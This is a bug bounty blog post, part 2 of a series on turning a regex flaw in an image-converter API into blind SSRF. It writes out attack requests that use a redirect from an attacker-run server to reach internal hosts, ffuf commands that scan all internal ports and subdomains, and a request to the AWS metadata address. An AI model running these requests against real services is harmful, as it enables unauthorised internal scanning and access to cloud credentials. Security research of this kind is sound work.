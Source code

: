```yaml
---
title: "From . in regex to SSRF - part 2"
date: 2020-01-14T10:14:47+01:00
draft: false
tags: [SSRF, bugbounty]
---
```


In this story I will continue my journey to exploit Server Side Request Forgery (SSRF). Part 1 is available [here]({{< ref "/posts/from-dot-in-regex-to-ssrf-part-1.md" >}}).

What is state of the game up to now? I have found service that is vulnerable to SSRF by executing the REST call and by passing domain name check:

```https://api.example.org/image-converter/https://www-example.org```

I have registered domain name: `www-example.org` and add for it `CNAME` record to my EC2 server.

But wait a second. **This is not yet "SSRF"**. For now I could call specific domain, but didn't prove ability to scan internal ports or execute requests to internal services.

First of all I checked what headers are sent to my server:

```nc -l -n -p 80```

{{< figure src="https://user-images.githubusercontent.com/17719543/139582215-1ead26ed-3b56-4ff7-9e25-35d901c27653.png" >}}

What it interesting here is `User-Agent`. Clearly indicating **NodeJS** and **node-fetch** library.

## Tools

For this part I needed http server to host some files and do redirects. Here is my script based on python `http.server`:

{{< gist xvnpw 9fa7f7c5a7dfa13d3f27d2e19af9a264 >}}

This script is doing two things:

* if request is starting with query parameter `/?r=` it is taking value of this parameter and put it in `Location` header, returning code `302`
* else it is loading file from disk and always returning `image/svg+xml` with code `200`. **This is important!** Always return expected `Content-Type` to check if parser can handle different types.

This code is PoC so don't expect much out of it. It's for testing purpose only. `Don't use it on production`.

You can check more of my hacking resources in [my public repo](https://github.com/xvnpw/hacking).

## Mind map

Here is mind map of ideas that I had during exploitation:

{{< figure src="https://user-images.githubusercontent.com/17719543/139582537-5fe5ba0c-123f-4413-8a0f-9f90194a5415.png" >}}

## SVG payload

Hosting some svg files was my first shot. I have took some from PayloadsAllTheThings repository, but sadly none was working.

In most cases I got `502 Bad Gateway` and in some payloads were just ignored. The other thing I noticed is that I was able request `png` or `jpg` file and it was parsed. I have gut feeling that service was using some kind of NodeJS library, not ImageMagick. Maybe I did miss something?

## HTTP Redirect

I have implemented in my `server.py` possibility to redirect with new `Location` header. This created variety of options to exploit.

Lets start with ports scanning:

```https://api.example.org/image-converter/https://www-example.org/%3Fr%3Dhttp%3A%2F%2F127.0.0.1%3A80%2F```

Redirect part is url encoded to not break service with `?` or `/`. I have taken this to Burp Intruder and scan all ports. But if you are using free version of Burp this can take a very long time. So it's better to use `ffuf`:

```bash
for i in {1..65535}; do echo $i; done > all_ports.txt;
ffuf -mc all -ac -w all_ports.txt -u 'https://api.example.org/image-converter/https://www-example.org/%3Fr%3Dhttp%3A%2F%2F127.0.0.1%3AFUZZ%2F'
```

Same way I was able to **scan for internal services**. For list of domains I used SecLists:
```bash
ffuf -mc all -ac -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u 'https://api.example.org/image-converter/https://www-example.org/%3Fr%3Dhttp%3A%2F%2FFUZZ.example.org%2F'
```

This will try to make a call to subdomains of `example.org` but from perspective of `api.example.org`. In my case it found redis instance on `redis.example.org`.

Next step for me was **access cloud resources**, e.g. metadata services on 169.254.169.254:

```https://api.example.org/image-converter/https://www-example.org/%3Fr%3Dhttp%3A%2F%2F169.254.169.254%3A80%2F```

I was able to positively connect to 169.254.169.254. So it means that service was running on AWS.

## Summary

I finally got blind SSRF using redirect `302` code and `Location` header! That's gave me possibility to penetrate internal network. I was disappointed that no svg payload was working. For part 3 I left "HTTP Parser Abuse" - I will try to force node-fetch to change protocol and talk with services like `redis`.

---

Thanks for reading! You can follow me on [Twitter](https://twitter.com/xvnpw).
